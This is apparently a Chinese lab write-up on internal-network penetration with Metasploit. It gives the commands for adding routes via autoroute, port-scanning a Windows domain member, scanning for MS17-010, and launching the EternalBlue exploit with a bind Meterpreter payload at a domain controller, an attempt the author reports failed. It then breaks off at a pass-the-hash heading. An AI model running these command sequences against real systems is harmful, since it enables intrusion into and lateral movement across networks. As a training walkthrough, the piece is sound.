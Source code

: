 ### (3)添加路由(这里添加路由，只能msf能访问到，msf外不可)

```java
# 可以用模块自动添加路由
run post/multi/manage/autoroute
#添加一条路由
run autoroute -s 192.168.52.0/24
#查看路由添加情况
run autoroute -p
```

![image-20240107145903676](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107145903676.png)

### (4)内网端口扫描

先执行background 命令将当前执行的 Meterpreter 会话切换到后台（后续也可执行sessions -i 重新返回会话），然后使用 MSF 自带 auxiliary/scanner/portscan/tcp 模块扫描内网域成员主机 192.168.52.141 开放的端口：

```java
use auxiliary/scanner/portscan/tcp
set rhosts 192.168.52.141
set ports 80,135-139,445,3306,3389
run
```

![image-20240107150359572](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20240107150359572.png)

192.168.52.141 win2003域成员机开启了 135、139、445端口

192.168.52.138  域控开启了80、135、139、445端口

### (5)MSF进行ms17-010攻击（未成功）

对于开启了 445 端口的 Windows 服务器肯定是要进行一波永恒之蓝扫描尝试的，借助 MSF 自带的漏洞扫描模块进行扫描：

```java
search ms17_010
use auxiliary/scanner/smb/smb_ms17_010
set rhosts 192.168.52.141
run
```

#### 漏洞利用

```java
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp #内网环境，需要正向shell连接
set rhosts 192.168.52.138
run
```

看很多师傅说一般成功率不高

### (6)哈希传递攻击(PTH)拿下域控
